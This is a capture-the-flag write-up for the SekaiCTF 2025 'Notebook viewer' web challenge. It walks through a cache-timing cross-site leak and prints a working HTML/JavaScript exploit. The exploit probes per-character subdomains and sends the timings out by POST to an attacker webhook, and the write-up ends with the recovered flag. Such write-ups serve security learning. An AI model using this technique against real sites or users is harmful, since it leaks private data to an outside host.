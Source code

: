 ```yaml
---
title: "SekaiCTF 2025 - Notebook viewer"
date: 2025-08-16
description: "DNS cache probing (?) + xsleaks"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTCJOogvjq4Qsz7VSPnEyoWTidg1hKYp8gngA&s'
translationKey: 'media'
stage: "evergreen"
toc: true
---
```


This CTF is memorable, cause it's the first time i first blooded a web chall in a big ctf. Here is the detailed write-up for this:

## notebook viewer (346 points, 1st solve)
![2](/commons/ctfs/sekaiCTF2025/2.png)

The source code is nothing too much, just classic admin-bot challenges, but we have a new thing: `shadow DOM` which i just read about it last week by masato: [https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow](https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow)

I guess some of you trying to break the shadow DOM, but i think its impossible cause if you notice on the `adminbot.js`:

```js
...
    await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
        waitUntil: "networkidle2"
    });

    let page2 = await browser.newPage();

    await page2.goto(url);

    await new Promise((res) => setTimeout(res, 15000));

    await browser.close();
    browser = null;
...
```
`page1` and `page2` means that the flag page and our page is in separate process, like a different tab, and there is no way to comeback the flag page (`window.history.go(-1)`,... is unusable here). But an idea just came up to my head instantly after look at these line 

![1](/commons/ctfs/sekaiCTF2025/1.png)

The upper is when i pass `/?note=hsw109`, it happens cause in index.html
```js
...
    const uri = new URL(location.href);
    const note = uri.searchParams.get('note') || 'my secret notes';

    function srcFor(i, code) {
      return `https://nbv-${i}-${code}.chals.sekai.team/`;
    }

    for (let i = 0; i < note.length; i++) {
      const code = note.codePointAt(i);
      const frame = document.createElement('iframe');
      frame.scrolling = 'no';
      frame.src = srcFor(i, code);
      wrap.appendChild(frame);
    }
...
```
You can see that each character of our passed note, there are an URL for this. And also if you notice a key part of my solution is in bot.js

![3](/commons/ctfs/sekaiCTF2025/3.png)

While doing this, i think that if the bot visited the flag page -> it also visited all the specific `https://nbv-${i}-${code}.chals.sekai.team/` URL corresponding to the flag .So i guess that with this option, its kinda faster if we load the URL same as flag URL -> brute force all of them, also setup a timer to compare all of them -> the fastest is the flag character we want, then i ask ChatGPT about that idea (ofc):

![5](/commons/ctfs/sekaiCTF2025/5.png)

Then i turn out that is the cache-timing probe attack (funny that i just read it in xsleaks and havent do it before). To be honest, while doing this i still assume that the bot option helps to "delete" the DNS resolution time for that URL (like the comment said :P). So eventually, me (and ChatGPT) create a small script to solve this, yep after some fixes it works well:

```html
<!doctype html>
<meta charset="utf-8">
<title>nbv first char timing</title>
<pre id="log">init…</pre>
<script>
const i = 0; 
const CHARS = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+,-./:;<=>?@[\]^_`{|}~'";
const codes = [...new Set([...CHARS].map(c => c.charCodeAt(0)))];

async function tFetch(u){
  const t0 = performance.now();
  try { await fetch(u, {mode: "no-cors", cache: "force-cache"}); } catch(e) {}
  return performance.now() - t0;
}

(async () => {
  const timings = [];
  for (const code of codes) {
    const url = `https://nbv-${i}-${code}.chals.sekai.team/`;
    const t1 = await tFetch(url);
    const t = t1;
    const guess = String.fromCharCode(code);
    timings.push({ guess, t });
  }
  timings.sort((a,b)=>a.t - b.t);
  const best = timings[0];
  const post = (obj) => {
    const blob = new Blob([JSON.stringify(obj)], {type:"application/json"});
    fetch("<webhook>", {method:"POST", mode:"no-cors", body: blob});
  };
  post({kind:"calibration", timings});
})();
</script>
```
Put it as response for your webhook (personally i used requestrepo), then add another webhook to capture the output, here is what i got when getting first index `i=0`
![6](/commons/ctfs/sekaiCTF2025/9.png)

yeah the gap between the right and wrong one is ~1ms (incredibly but its still the right one "S"), what about the next one?

`i=1`

![8](/commons/ctfs/sekaiCTF2025/8.png)

yeah its definitely our flag yayyyy!!! If you continue, you can get the full flag, but careful if sometime our right char we're guessing is in the first index of the charset, it can cause all of our delta T have the same, then you need to move that charset backward to your charset. I dont have VPS and too lazy to setup API to requestrepo, so i do this by hand. Finally we got the flag:

> SEKAI{Pr*<3$5-1SolAT10n_X5l34K5_fTW}

Thank you guys for reading!